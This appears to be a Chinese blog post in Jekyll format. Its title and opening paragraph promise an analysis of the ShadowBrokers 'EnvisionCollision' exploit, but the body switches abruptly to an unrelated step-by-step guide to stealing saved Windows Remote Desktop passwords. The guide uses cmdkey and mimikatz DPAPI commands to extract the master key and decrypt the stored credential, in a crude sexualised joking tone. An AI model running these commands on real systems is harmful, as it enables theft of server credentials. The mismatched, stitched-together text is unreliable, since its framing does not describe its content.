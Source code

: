 ```yaml
---
layout: post
title: 对ShadowBrokers Envison Collision漏洞的利用分析
subtitle: 2017/11/08
date: 2017-11-08
author: FR
header-img:
catalog: true
tags:
    - ShadowBrokers
    - 漏洞
---
```

- **转自FreeBuf [【FreeBuf链接】](http://www.freebuf.com/vuls/152427.html)**  
- **原文来自steemit[【原文链接】](https://steemit.com/security/@shadoweye/analysis-of-the-shadowbrokers-envisoncollision-exploit)**

目前我们正在对ShadowBrokers公开的利用工具以及脚本等进行了全方位的分析和分类工作，所以写一篇关于Linux下“envisioncollision”漏洞利用的简单介绍是非常值得的。我们之前已经对所公开文件中的[PHPBB](https://steemit.com/security/@shadoweye/analysis-of-the-shadowbrokers-xpphpbb-pl-exploit)漏洞进行披露，当时的文章中提到这个漏洞非常受网络犯罪组织的欢迎，因为很多web论坛都存在“有效”的SIGINT目标，所以接下来披露另一个web论坛漏洞合情合理。

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![img/2017-10-20/pjyczdpjhqfwqmm_01.png](https://www.t00ls.net/attachments/month_1710/1710010133df4eed0bc854ab65.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![img/2017-10-20/pjyczdpjhqfwqmm_02.png](https://www.t00ls.net/attachments/month_1710/1710010133cc76caaa81644803.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![img/2017-10-20/pjyczdpjhqfwqmm_03.png](https://www.t00ls.net/attachments/month_1710/1710010133de85b4d2e02de9b4.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![img/2017-10-20/pjyczdpjhqfwqmm_04.png](https://www.t00ls.net/attachments/month_1710/1710010133f73326447a780849.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![img/2017-10-20/pjyczdpjhqfwqmm_05.png](https://www.t00ls.net/attachments/month_1710/17100101335e46e0e11d5639b9.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![img/2017-10-20/pjyczdpjhqfwqmm_06.png](https://www.t00ls.net/attachments/month_1710/1710010133a0bde34b6ad38f6f.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
